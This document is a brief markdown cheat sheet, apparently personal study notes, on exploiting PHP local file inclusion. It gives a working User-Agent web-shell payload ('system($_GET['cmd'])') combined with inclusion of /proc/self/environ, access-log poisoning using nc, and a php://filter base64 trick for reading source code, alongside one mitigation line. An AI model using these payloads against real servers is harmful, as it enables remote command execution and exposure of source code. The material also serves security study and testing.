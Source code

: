 # LFI

LFI mitigiation:
~~~
open_basedir = On in php.ini

(if this is on, PHP can't access any file outside the specified directory) , essentially kills the purpose of include statements in other directories such as libraries)
~~~

Techniques which can be used to leverage LFI:
~~~
- /proc/self/environ
- /proc/self/fd
- /var/log/apache2/access.log
- /var/log/auth.log
- php://input wrapper
- php://filter wrapper
- data:wrapper
~~~

Great source for in-depth detail of exploiting vulnerabilities: https://resources.infosecinstitute.com/local-file-inclusion-code-execution/

## /proc/self/environ

Contains environment variables
   - REMOTE_PORT
   - HTTP_USER_AGENT
   - etc

`SHOULD NOT BE ACCESSIBLE FROM NON-ROOT USERS`

Exploit:

Intercept request and edit the User-Agent, and replace with php executable code.

Example:
User-Agent: <?php system($_GET['cmd']); ?>

After the request is sent to the server,

include /proc/self/environ in the LFI, and append your PHP code.

http://localhost/index.php?file=/proc/self/environ&cmd=whoami

## /var/log/apache2/access.log

`Should not be accessible from non-root users`

Access.log logs all requests to the web server (including 404s), though excludes 400s (bad server request)

To exploit, send a HTTP request containing php code using nc & include access.log using the LFI

(Images from Infosec Institute)

![nc](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/080416_0223_FromLocalFi8.png)

## PHP Filters

Convert file output to base64:

The reason you would want to convert a php file to base64 is because if the php file is included in the LFI, the php file itself will execute and you will not be able to see the source code.

By using the filter to convert the output to base64, we can then decode the output and see the source

~~~
php://filter/read=convert.base64-encode/resource=FILE
~~~

Read about the different PHP filters: https://highon.coffee/blog/lfi-cheat-sheet/

 

